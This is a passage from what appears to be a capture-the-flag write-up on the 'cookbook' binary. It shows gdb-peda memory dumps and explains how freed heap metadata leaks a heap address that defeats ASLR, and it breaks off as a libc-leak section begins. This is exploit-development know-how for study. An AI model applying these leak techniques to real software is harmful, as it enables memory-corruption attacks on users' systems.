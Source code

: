 ```
0024| 0xffffcf78 --> 0x0 
0028| 0xffffcf7c --> 0xf7e57991 (<_IO_getline_info+161>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080495a0 in ?? ()
gdb-peda$ x/3wx 0x804f2b0
0x804f2b0:	0xf7fae7b0	0xf7fae7b0	0x00000000
gdb-peda$ x/wx 0xf7fae7b0
0xf7fae7b0:	0x0804f6d8
gdb-peda$ c
Continuing.
[------]
recipe type: (null)

134543064 - 
total cost : $331063448
total cals : 0
[n]ew recipe
[d]iscard recipe
[a]dd ingredient
[r]emove ingredient
[g]ive recipe a name
[i]nclude instructions
[s]ave recipe
[p]rint current recipe
[q]uit
```

So we can see that the data has been replaced with heap metada, which is a pointer to the area of the heap where it can start allocating more data `0x804f6d8` exactly 1064 bytes after `0x804f2b0`.  Because of it's positioning, it is where it expects the ingredients to be it ends up printing out the value being pointed to `0x804f6d8` in base ten (134543064). With this we have a heap address which we can use to bypass ASLR in the heap.

#### Libc Leak

Next up, let's see what happens when we allocate space to a recipe, free it, then make a new ingredient. Let's see exactly how the data is layed out when this happens.

```
gdb-peda$ r
Starting program: /Hackery/bkp16/cookbook/cookbook 
what's your name?
guyinatuxedo
+-----------------------------+
|          .--,--.            |
|          `.  ,.'            |
|           |___|             |
|           :o o:             |
|          _`~^~'             |
|        /'   ^   `\          |
| cooking manager pro v6.1... |
+-----------------------------+
====================
[l]ist ingredients
[r]ecipe book
[a]dd ingredient
[c]reate recipe
[e]xterminate ingredient
[d]elete recipe
[g]ive your cookbook a name!
[R]emove cookbook name
[q]uit
c
```